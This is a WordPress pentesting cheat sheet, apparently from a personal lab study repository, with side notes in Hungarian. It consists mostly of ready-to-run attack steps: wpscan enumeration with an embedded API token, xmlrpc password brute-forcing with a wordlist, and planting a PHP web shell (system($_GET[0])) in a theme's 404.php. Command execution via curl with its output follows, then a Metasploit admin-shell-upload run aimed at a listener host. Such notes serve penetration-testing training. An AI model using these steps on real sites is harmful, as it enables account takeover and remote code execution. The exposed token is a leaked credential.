 # wordpress
## basic enumeration
sudo wpscan --url http://10.10.13.59/ --enumerate --api-token WjrpE4gHXHSJWdMRFd65wbgll05shgqVteeasj8sK1Y  
## login bruteforcing
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local  
### Error
* van hogy errort dob es kiirja, hogy vigyuk lejjebb a thread-et
* vegyuk le 1-re
* ha az se jo, akkor inkabb hdyraval torjuk (mukodott mar a hydra legutobb, csak a pontos html output-bol kell masolni a 'false text'-et es nem a honlap szovegbol)
## code execution with obtained credentials
### manually
go to Appareance / theme editor  
select an inactive theme and select a file (like 404.php)  
insert an rce code sample, like this: system($_GET[0]);  
save  
curl http://10.10.10.1/wp-content/themes/<theme_name>/404.php?0=id
example  
<pre>
# twentyfifteen-en belul a 404.php-t tipikusan meg lehet szerkeszteni
# van mar nyito es csuko php tag oda koze be lehet illeszteni a get_header(); ele es akkor tuti jo lesz

# [Twenty Fifteen: 404 Template (404.php)] (backslash jelek nem kellenek csak a github hulyen kezeli a tageket)
</pre>
![image](https://github.com/VajdaGergely/EJPT_pentesting_cheatsheet/assets/39236093/0b8705de-5c2f-414b-a7f0-3f96bfbf481f)
<pre>
# aztan bongeszobol vagy curl-el meg lehet hivni
curl -i -s http://10.10.3.254/wp-content/themes/twentyfifteen/404.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
* KIS NAGY BETU BAROMIRA SZAMIT A THEME ELNEVEZESENEL !!!!!!!! CASE SENSITIVE !!!!!
  * KIS BETUVEL KELL IRNI MINDENT !!!
### metasploit
msf6 > use exploit/unix/webapp/wp_admin_shell_upload  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run  
